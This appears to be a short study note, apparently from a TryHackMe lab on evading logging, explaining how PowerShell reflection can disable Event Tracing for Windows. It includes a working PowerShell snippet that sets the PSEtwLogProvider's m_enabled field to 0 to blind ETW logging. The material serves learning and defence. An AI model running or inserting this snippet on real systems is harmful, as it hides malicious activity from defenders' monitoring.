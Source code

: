# ETW-Evasion PowerShell Reflection

Powershell Reflection is a [[Logging-And-Monitoring-Evasion]] technique. Within PowerShell, [[Event-Tracing-for-Windows]] (ETW) providers are loaded into the session from a .NET assembly: `PSEtwLogProvider`, most .NET assemblies are loaded in the same security context as the user at startup. [Microsoft documentation](https://docs.microsoft.com/en-us/dotnet/standard/assembly/), *"Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications."*

Reflection is as [O'Reilly](https://www.oreilly.com/library/view/professional-windows-powershell/9780471946939/9780471946939_using_.net_reflection.html): *"Reflection allows you to look inside an assembly and find out its characteristics. Inside a .NET assembly, information is stored that describes what the assembly contains. This is called metadata. A .NET assembly is, in a sense, self-describing, at least if interrogated correctly.*

By modifying the assembly fields and values through PowerShell Reflection we can reflect an ETW event provider assembly and set field `m_enabled` to `$null`.

```powershell
# Obtain .NET assembly for `PSEtwLogProvider`
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
# Store a null value for `etwProvider` field
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
# Set the field `m_enabled` to a previously stored value
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```
 

## References

[THM Evading Logging and Monitoring](https://tryhackme.com/room/monitoringevasion)
[Microsoft documentation](https://docs.microsoft.com/en-us/dotnet/standard/assembly/)